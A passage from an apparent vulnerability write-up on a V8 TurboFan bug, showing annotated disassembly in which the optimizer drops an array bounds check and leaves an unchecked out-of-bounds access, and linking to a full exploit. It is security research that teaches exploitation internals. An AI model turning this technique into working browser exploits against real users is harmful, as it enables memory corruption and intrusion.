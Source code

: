 At this point, there isn't any proper bound check left.

### Observing the generated assembly

Let's run again the previous poc. We'll disassemble the function twice. 

The first optimized code we can observe contains code related to:

- a CheckedBounds with a length of MaxValue,
- a bound check with a NumberLessThan with the correct length.

```text
                =====   FIRST DISASSEMBLY  ===== 

0x11afad03119   119  41c1f91e       sarl r9, 30              // badly_typed >> 30
0x11afad0311d   11d  478d0c89       leal r9,[r9+r9*4]        // badly_typed * OOB_OFFSET

0x11afad03239   239  4c894de0       REX.W movq [rbp-0x20],r9

// CheckBounds (index = badly_typed, length = Smi::kMaxValue)
0x11afad0326f   26f  817de0ffffff7f cmpl [rbp-0x20],0x7fffffff
0x11afad03276   276  0f830c010000   jnc 0x11afad03388  <+0x388> // go to Unreachable

// NumberLessThan (badly_typed, LoadField(array.length) = 2)
0x11afad0327c   27c  837de002       cmpl [rbp-0x20],0x2
0x11afad03280   280  0f8308010000   jnc 0x11afad0338e  <+0x38e>

// LoadElement
0x11afad03286   286  4c8b45e8       REX.W movq r8,[rbp-0x18]  // FixedArray
0x11afad0328a   28a  4c8b4de0       REX.W movq r9,[rbp-0x20]  // badly_typed * OOB_OFFSET
0x11afad0328e   28e  c4817b1044c80f vmovsd xmm0,[r8+r9*8+0xf] // arr[bad]

// Unreachable
0x11afad03388   388  cc             int3l // Unreachable node
```

The second disassembly is much more interesting. Indeed, only the code corresponding to the CheckBounds remains. The actual bound check was removed!

```text
                     =====  SECOND DISASSEMBLY  ===== 

335 0x2e987c30412f   10f  c1ff1e         sarl rdi, 30 // badly_typed >> 30
336 0x2e987c304132   112  4c8d4120       REX.W leaq r8,[rcx+0x20]
337 0x2e987c304136   116  8d3cbf         leal rdi,[rdi+rdi*4] // badly_typed * OOB_OFFSET

// CheckBounds (index = badly_typed, length = Smi::kMaxValue)
400 0x2e987c304270   250  81ffffffff7f   cmpl rdi,0x7fffffff
401 0x2e987c304276   256  0f83b9000000   jnc 0x2e987c304335  <+0x315>
402 0x2e987c30427c   25c  c5fb1044f90f   vmovsd xmm0,[rcx+rdi*8+0xf] // unchecked access!

441 0x2e987c304335   315  cc             int3l  // Unreachable node
```

You can confirm it works by launching [the full exploit](https://github.com/JeremyFetiveau/TurboFan-exploit-for-issue-762874) on a patched 7.5 d8 shell.
